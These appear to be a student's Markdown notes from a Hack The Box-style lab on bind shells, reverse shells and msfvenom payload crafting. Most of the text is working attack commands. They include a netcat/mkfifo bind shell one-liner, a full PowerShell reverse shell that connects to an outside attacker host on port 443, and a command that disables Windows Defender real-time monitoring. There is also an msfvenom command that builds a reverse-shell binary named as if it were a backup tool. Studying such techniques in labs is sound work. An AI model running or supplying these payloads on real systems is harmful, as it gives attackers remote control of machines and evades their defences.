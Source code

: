 # Bind Shells
![[bindshell.webp]]
## connect server and client by netcat.
**1.SERVER  OPEN PORT 7777**
```shell
Target@server:~$ nc -lvnp 7777
Listening on [0.0.0.0] (family 0, port 7777)
```
**2.CLIENT CONNECT TO SERVER BY PORT 7777**
```shell
015coding@htb[/htb]$ nc -nv 10.129.41.200 7777
Connection to 10.129.41.200 7777 port [tcp/*] succeeded!
```
**3.SERVER CONFIRM**
```shell
Target@server:~$ nc -lvnp 7777

Listening on [0.0.0.0] (family 0, port 7777)
Connection from 10.10.14.117 51872 received!  
```
**4.CLIENT MESSAGE "HELLO WORLD"**
```shell
015coding@htb[/htb]$ nc -nv 10.129.41.200 7777

Connection to 10.129.41.200 7777 port [tcp/*] succeeded!
HELLO WORLD  
```
**5.SERVER RECEIVE MESSAGE**
```shell
Target@server:~$ nc -lvnp 7777
Listening on [0.0.0.0] (family 0, port 7777)
Connection from 10.10.14.117 51914 received!
HELLO WORLD  
```
## <mark style="background: #FFB86CA6;">BIND SHELL</mark>
**1.Target**
```shell
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc -l 10.129.41.200 7777 > /tmp/f
```
 `10.129.41.200` -> Target IP<br>
 **2.ATTACKER**
 ```shell
nc -nv 10.129.41.200 7777
```

# Reverse Shells
![[reverseshell.webp]]
[reverse shell]([Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md))
## reverse shell
**1.Target**
```shell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

```powershell
PS C:\Users\htb-student> Set-MpPreference -DisableRealtimeMonitoring $true
```

**2.Attacker**
```shell
sudo nc -lvnp 443
```

# Crafting Shells
use `msfvenom` to craft
```shell
msfvenom -l payloads
```
`-l` -> list payload <br>
and this is how to build
```shell
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf
```
`-p` -> select payload <br>
`-f` -> format file to export<br>
how to find what that request just go to Metasploit ,search and use `options`

